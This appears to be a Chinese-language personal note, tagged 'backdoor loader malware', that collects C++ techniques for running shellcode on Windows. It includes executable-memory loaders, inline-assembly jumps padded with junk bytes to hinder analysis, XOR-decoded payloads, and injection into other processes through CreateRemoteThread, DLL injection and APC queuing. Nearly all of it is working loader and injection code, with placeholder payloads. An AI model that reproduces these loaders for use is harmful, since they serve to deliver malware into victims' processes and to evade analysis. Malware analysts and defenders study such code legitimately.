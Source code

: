 # 执行shellcode

keywords: backdoor loader 恶意软件  

使用各种方法执行shellcode  


## 作为函数直接调用
直接设置buf可执行  
```cpp
#include <Windows.h>
#include <stdio.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	DWORD old;
	VirtualProtect(buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &old);

	void(*func)();
	func = (void(*)()) & buf;
	func();
	 //((void(*)())buf)();

	return 0;
}
```

先分配可执行内存copy一次，确保有可执行权限：  
```cpp
#include <Windows.h>
#include <stdio.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	LPVOID memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (memory == NULL)
		return 1;
	memcpy(memory, buf, sizeof(buf));
	((void(*)())memory)();

	return 0;
}
```

通过设置新段保证有可执行权限：  
```cpp
#include <Windows.h>
#include <stdio.h>

#pragma data_seg("vdata")
unsigned char buf[] = "\x11\x22";
#pragma data_seg()
#pragma comment(linker, "/SECTION:vdata,RWE")

int main() {
	
	((void(*)())buf)();

	return 0;
}
```

嵌入汇编加载：  
```cpp
#include <Windows.h>
#include <stdio.h>

#pragma data_seg("vdata")
unsigned char buf[] = "\x11\x22";
#pragma data_seg()
#pragma comment(linker, "/SECTION:vdata,RWE")

int main() {
	
	__asm{
		mov eax, offset buf
		jmp eax
	}

	return 0;
}
```

汇编花指令：  
```cpp
#include <Windows.h>
#include <stdio.h>

#pragma data_seg("vdata")
unsigned char buf[] = "\x11\x22";
#pragma data_seg()
#pragma comment(linker, "/SECTION:vdata,RWE")

int main() {

	__asm {
		mov eax, offset buf
		jmp eax
		_emit 0xAA  // _emit 在当前位置放一个指定的字节，没有实际作用，干扰分析
		_emit 0xBB
	}

	return 0;
}
```


## 使用CreateThread
```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	PVOID shellcode_exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, buf, sizeof(buf));
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);

	return 0;
}
```


## 使用CreateRemoteThread
```cpp
// 未测试
#include "Windows.h"
#include <stdio.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] ="你的shellcode";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```


## 经典dll注入
```cpp
// 未测试
#include "Windows.h"
#include <stdio.h>


int main(int argc, char* argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("你的DLL地址");

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```


## APC线程注入
APC, Asynchronous Procedure Calls, 异步过程调用，在特定线程的上下文中异步执行函数  
这些函数可以触发异步执行函数调用：  
```r
SleepEx
SignalObjectAndWait
MsgWaitForMultipleObjectsEx
WaitForMultipleObjectsEx
WaitForSingleObjectEx 
```

示例：  
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>

int main()
{
    char xor_shell[] = "\x11\x22";

    char* shellcode;
    int shellcode_size = 0;

    for (int i = 0; i < sizeof xor_shell; i++)
    {
        xor_shell[i] ^= 13;
    }

    shellcode = xor_shell;
    shellcode_size = sizeof(xor_shell);

    // 开启一个线程
    HANDLE hthread = OpenThread(16, 0, GetCurrentThreadId());

    // 给现在的进程申请一个可读可执行的内存
    char* buffer = (char*)VirtualAllocEx(GetCurrentProcess(), 0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 复制内存内容
    CopyMemory(buffer, shellcode, shellcode_size);

    // 将用户模式异步过程调用(APC)对象添加到指定线程的APC队列
    // 这里就是添加到此线程的APC队列
    // 第一个参数是 指向应用程序提供的APC函数的指针，该函数在指定线程执行可警报等待操作时调用
    QueueUserAPC((PAPCFUNC)buffer, hthread, (ULONG_PTR)buffer);

    // 挂起当前线程，直到满足指定条件，超过时间间隔后，执行恢复
    SleepEx(5, 1);

    return 0;
}
```


## 参考链接
1. https://0xpat.github.io/Malware_development_part_1
2. 初九_9 https://www.bilibili.com/video/BV1Km4y1Z73g
3. APC介绍: https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls
4. https://www.bilibili.com/video/BV1GS4y1U7EN
5. https://www.bilibili.com/video/BV1Ti4y1y7Dh
6. https://learn.microsoft.com/en-us/cpp/assembler/inline/emit-pseudoinstruction?view=msvc-170
7. https://zhuanlan.zhihu.com/p/548583127


---
2022/2/15  
